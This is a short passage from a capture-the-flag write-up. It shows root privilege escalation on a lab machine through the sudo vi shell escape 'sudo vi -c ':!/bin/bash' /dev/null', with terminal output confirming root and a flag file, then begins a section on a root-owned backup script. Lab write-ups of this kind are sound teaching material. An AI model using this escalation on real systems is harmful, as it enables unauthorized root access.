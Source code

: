 <br>

## Root

Running the command allows us to escalate our privileges to the root user:

`sudo vi -c ':!/bin/bash' /dev/null`

```
localuser@ip-10-50-153-253:~$ sudo vi -c ':!/bin/bash' /dev/null
sudo: unable to resolve host ip-10-50-153-253

root@ip-10-50-153-253:~# whoami
root
```

Looking in the **/root** directory we find a file called **flag.txt** and the contents are:

![](images/groot3.jpg)

<br>

## Additional Privilege Escalation Methods

### #1 - .bakcup_shell

Looking in the **/home/localuser/Documents/backup/20210530_1830** directory shows us 2 files owned by the root user. One is an executable binary file and the other is a .sh script.

![](images/groot4.jpg)
